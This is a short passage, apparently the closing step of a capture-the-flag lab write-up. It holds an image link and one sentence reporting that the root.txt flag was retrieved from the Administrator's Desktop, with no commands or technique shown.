

-----

### Retrieving `root.txt`

Finally, the `root.txt` flag was retrieved from the Administrator's Desktop.
